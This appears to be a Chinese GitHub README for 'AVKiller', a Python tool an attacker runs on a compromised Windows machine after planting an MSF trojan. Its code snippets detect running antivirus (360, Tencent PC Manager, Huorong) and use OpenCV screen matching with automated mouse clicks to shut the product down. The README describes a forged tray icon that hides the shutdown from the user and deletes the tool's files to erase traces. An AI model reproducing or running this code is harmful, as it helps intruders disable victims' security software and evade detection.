 # AVKiller

### 功能更新(2020-7-6)

1. 关闭杀毒软件后，伪造杀毒软件的托盘图标
2. 双击伪造的托盘程序可以正确打开原来的杀毒软件
3. 鼠标移动到伪造杀毒软件图标时会显示响应的气泡事件
![image](https://github.com/PDWR/AVKiller/blob/master/images/fakeTray.png "气泡事件")
4. 右键伪造托盘图标时，可以选择打开活退出（后续可能会更新为匹配原杀毒软件程序界面）
5. 伪造托盘图标程序为母程序释放的子程序，运行后不受母程序影响，独立运行（使用pythonw）

### 原理以及在代码里的注释已经写得比较详尽了，如果还有问题的话，请issue提问，喜欢的话，请不要吝啬给个star！！！


## 利用图形化识别技术快速关闭目标机器上的杀毒软件


写该脚本的原因是4月份在进行内网渗透的时候，对MSF木马做了免杀处理，做完免杀的木马可以完美绕过杀毒软件的检测，但是msf木马在执行下一步操作的时候，往往会向目标计算机继续写入exe文件或执行powershell代码，这样的操作几乎都会引发杀毒软件的告警，让渗透的过程被对方察觉，而且MSF生成的后渗透可执行文件已经被所有杀毒软件厂商提取特征码，免杀效率几乎为0。所以才有了为何不直接关闭目标的杀毒软件后再进行后渗透操作的想法。


## 功能实现

### 1.识别杀软

为了实现自动识别杀毒软件的功能，首先要知道系统运行了哪些杀毒软件，CMD命令tasklist可以列出系统正在运行的进程，将其与已知的杀毒软件进行进行匹配即可，如果进程中有与av_process里的进程名，说明该电脑正在运行XX杀毒软件。这里需要做个判断，如果不存在杀毒软件的话，则退出该程序。

	#检测杀毒软件函数，返回杀毒软件名称
	av_process = {'hr': 'HipsTray.exe', 'txgj': 'QQPCTray.exe', '360': '360sd.exe'}
	def runningAVs():
		tasklist = popen('tasklist').read().split()  #运行系统命令tasklist
		for av_exe in av_process.values():
			if av_exe in tasklist:
				usingAV = [k for k, v in av_process.items() if v == av_exe][0]
				return usingAV # 返回目标主机使用的杀毒软件名称


判断目标主机使用的杀毒软件后，由于使用的是图像识别，所以需要将对应的图标和"确认""退出"的字样写入

	# 杀毒软件logo，以及其他字符图片的写入。若不存在杀毒软件，程序退出
	try:
		AV = runningAVs()
		print(AV)
		# 将对应的logo写入
		logo_b64 = b64_AV_logo[AV]
		logo_img = base64.b64decode(logo_b64)
		with open(logoImage, 'wb') as f:
			f.write(logo_img)
			
		# 输出通用的‘退出’字符串图片
		with open(logoutImage, 'wb') as f:
			f.write(base64.b64decode(b64_logout))
			
		# 通过杀毒软件判断最后一步退出步骤应该使用的字样
		#（360与腾讯管家的最后一步“确认”字样底色颜色不一样）
		if AV == r'hr':
			return b64_logout
		elif AV == r'360':
			return b64_blue_comfirm
		else:
			return b64_white_comfirm
	#没检测到杀毒软件，程序退出
	except :
		print('主人，这家伙没开杀毒软件！！！！干他๑乛◡乛๑ ')
		exit()


### 2.坐标获取

知道目标主机运行的程序后就需要准备关闭它了，这时候使用opencv的图像识别技术，找到目标（杀毒软件）logo在屏幕的位置，以坐标形式进行返回，用于对鼠标的定位。

	# 使用opencv获取图标的坐标（logo，退出，确认等字样）
	def get_position(imgSource, imgTarget):
		source = cv2.imread(imgSource, 0)  # 0-灰度处理，防止颜色不同对定位产生影响
		target = cv2.imread(imgTarget, 0)
		wight, height = target.shape[::-1]  # 获取图片长和宽，方便确定文字的中新坐标
		res = cv2.matchTemplate(source, target, cv2.TM_CCOEFF_NORMED)
		min_val, max_val, min_loc, max_loc = cv2.minMaxLoc(res)
		pos_x = int(max_loc[0] + wight / 2)
		pos_y = int(max_loc[1] + height / 2)
		# print(pos_x, pos_y)
		return pos_x, pos_y


### 3.鼠标操作

这是pyautogui库的功能，此程序用到的只是rightClick，Click功能，主要是利用opencv获取到的坐标，让鼠标进行移动到对应的位置，然后进行右击和点击操作。

### 4.清理痕迹

活干完了，总不能抢前走人吧，至少得擦掉一些痕迹吧！由于需要多次通过图片对比来找到坐标，所以会在目标电脑里保存6张图片，所以当杀毒软件退出后，我们需要将其删除。CMD的del命令可以删除文件（不是移动到回收站，而是直接删除）

	def clean():
	popen(r'del /q {} {} {} {} {} {}'.format(logoutImage, logoImage, comfireImage,screen_before,screen_logout,screen_comfire))


### 5.Tips

#### a)	关于sleep：为什么需要sleep？
Pyautogui进行截屏操作的时候需要时间（100ms左右，电脑性能会导致时间长短不同），sleep时长跟电脑性能有关，如果目标主机性能足够好的话，可以适当减小sleep时长。

#### b)	关于图片存放位置：为什么不直接在当前目录下？
在当前目录下由于图片中有类似‘退出’、‘确认’字样，会被opencv识别，导致定位不准，所以必须保存在其他目录下

#### c)	关于打开右下角隐藏起的图标
Win+B，再按一下空格键或者回车键

#### d)	关于图片保存
先将图片转为base64，需要用的时候再将其解码回来即可。而且重要的是，当进行渗透的时候，只需要上传一个文件！减少上传的文件数量！

#### e)关于图标与桌面的打开软件的图标是否冲突
这个不会，因为opencv识别时的SourceImage和TargetImage大小差别太大不能识别

### 6. 图片展示
![image](https://github.com/PDWR/AVKiller/blob/master/images/360.gif "关闭360")
![image](https://github.com/PDWR/AVKiller/blob/master/images/txgj.gif "关闭腾讯管家")
![image](https://github.com/PDWR/AVKiller/blob/master/images/hr.gif "关闭火绒")
